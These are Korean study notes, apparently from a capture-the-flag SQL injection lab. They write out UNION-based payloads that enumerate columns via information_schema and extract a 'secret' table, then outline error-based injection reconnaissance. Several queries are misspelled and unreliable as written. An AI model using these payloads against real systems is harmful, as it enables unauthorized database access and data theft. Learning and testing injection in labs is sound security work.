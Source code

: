 ## (7) 컬럼 이름 : idx, secret
information_schema.colums 의 column_name 

select column_name from informarion_schema.colunmns where table_name='secret'

watch%' union select '1','2','3','4

where name like = '%select column_name from informarion_schema.colunmns where table_name='secret'%'

## (8) data 추출
select secret from scret

watch%' union select '1',secret, '3', '4' from secret # 

segfault{}

---
*** 나홀로 해보기.

(1) DB : secretdb

(2) member 테이블

---

Error 메시지가 화면에 출력될 때,
-> DB error 메시지가 화면에 출력.

nor' 이라고 치니까?   
SQL syntax 에러가 뜰 경우에는 심봤다라고 생각해라.
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''nor''' at line 1
```
MySQL 을 사용하는구나?   
등을 알 수 있음.


## (1) 추측

select 문.   

select ???? from ??? where id=''

like나 %는 쓰진 않을 것임. id는 정확해야 하니까.


select ???? from ??? where id=''   
이런 구문을 사용하겠다. 라고 생각해야 함.

## (2) DB 에러인지 확인

## (3) error based SQL Injection Function
1.문법 에러
2.논리 에러 -> 문법은 맞아야 함.
